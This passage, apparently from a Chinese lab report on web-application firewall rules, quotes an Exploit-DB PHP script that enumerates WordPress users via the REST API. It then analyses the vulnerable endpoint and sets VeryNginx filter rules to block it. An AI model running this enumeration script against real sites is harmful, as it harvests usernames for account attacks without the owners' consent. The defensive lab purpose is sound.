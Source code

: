 exploit-db 上给出的 exp ：

> ```php
> #!usr/bin/php
> <?php
> 
> #Author: Mateus a.k.a Dctor
> #fb: fb.com/hatbashbr/
> #E-mail: dctoralves@protonmail.ch
> #Site: https://mateuslino.tk 
> header ('Content-type: text/html; charset=UTF-8');
> 
> 
> $url= "https://bucaneiras.org/";
> $payload="wp-json/wp/v2/users/";
> $urli = file_get_contents($url.$payload);
> $json = json_decode($urli, true);
> if($json){
>     echo "*-----------------------------*\n";
> foreach($json as $users){
>     echo "[*] ID :  |" .$users['id']     ."|\n";
>     echo "[*] Name: |" .$users['name']   ."|\n";
>     echo "[*] User :|" .$users['slug']   ."|\n";
>     echo "\n";
> }echo "*-----------------------------*";} 
> else{echo "[*] No user";}
> 
> 
> ?>
> ```

可以看到它是利用 REST API 来获取用户的信息，对应的文件是`wp-includes/rest-api/endpoints/class-wp-rest-users-controller.php`，接下来使用 exp 并且开启动态调试。根据查看`get_items_permissions_check`函数、`get_items`函数，可见该 API 可以获取的用户必须满足以下几个条件：

- 发表过文章
- 文章的当前状态是`publish`
- 文章类型是`post`、`page`、`attachment`其中之一

根据Wordpress官方给出的补丁**制定安全策略**：

- 在**Basic**中添加匹配规则

<img src="./image/err_protect.png" style="zoom:80%;" />

- 在**Custom Action**中添加过滤条件

<img src="./image/err_protect2.png" style="zoom:80%;" />

#### 3.4 通过配置VeryNginx的Filter规则实现对Damn Vulnerable Web Application (DVWA)的SQL注入实验在低安全等级条件下进行防护
